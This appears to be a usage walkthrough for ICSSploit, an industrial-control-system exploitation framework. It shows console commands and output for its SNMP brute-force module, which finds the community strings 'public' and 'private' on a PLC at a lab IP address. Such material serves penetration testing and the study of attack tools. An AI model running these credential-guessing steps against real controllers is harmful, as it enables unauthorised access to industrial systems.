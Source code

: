 # SNMP Bruteforece

# Use SNMP bruteforece module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
               https://github.com/reverse-shell/routersploit
    Dev Team : wenzhe zhu(dark-lbp)
    Version  : 1.0
    
    Exploits: 2 Scanners: 0 Creds: 13
    
    ICS Exploits:
        PLC: 2          ICS Switch: 0
        Software: 0
    
    isf > search snmp
    creds/snmp_bruteforce
    isf > use creds/snmp_bruteforce
    isf (SNMP Bruteforce) >

    
# set options
    isf (SNMP Bruteforce) > show options

    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target IP address or file with target:port (file://)
       port       161                  Target port
    
    
    Module options:
    
       Name                Current settings                                               Description
       ----                ----------------                                               -----------
       version             2                                                              Snmp version 1:v1, 2:v2c
       threads             8                                                              Number of threads
       stop_on_success     yes                                                            Stop on first valid community string
       verbosity           yes                                                            Display authentication attempts
       snmp                file:///root/Desktop/temp/isf/icssploit/wordlists/snmp.txt     Community string or file with community strings (file://)
    
    isf (SNMP Bruteforce) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    # Some PLC only support snmp version 1
    isf (SNMP Bruteforce) > set version 1
    [+] {'version': '0'}

# run module
    isf (SNMP Bruteforce) > run
    [*] Running module...
    [*] worker-0 thread is starting...
    [*] worker-1 thread is starting...
    [*] worker-2 thread is starting...
    [*] worker-3 thread is starting...
    [*] worker-4 thread is starting...
    [*] worker-5 thread is starting...
    [*] worker-6 thread is starting...
    [*] worker-7 thread is starting...
    [+] Target: 192.168.70.210:161 worker-0: Valid community string found - String: 'public'
    [*] worker-0 thread is terminated.
    [*] worker-4 thread is terminated.
    [+] Target: 192.168.70.210:161 worker-1: Valid community string found - String: 'private'
    [*] worker-1 thread is terminated.
    [*] worker-6 thread is terminated.
    [*] worker-5 thread is terminated.
    [*] worker-7 thread is terminated.
    [-] Target: 192.168.70.210:161 worker-2: Invalid community string - String: 'wheel'
    [*] worker-2 thread is terminated.
    [-] Target: 192.168.70.210:161 worker-3: Invalid community string - String: '0'
    [*] worker-3 thread is terminated.
    [*] Elapsed time:  6.13672208786 seconds
    [+] Credentials found!
    
       Target             Port     Community Strings
       ------             ----     -----------------
       192.168.70.210     161      public
       192.168.70.210     161      private
    
    isf (SNMP Bruteforce) >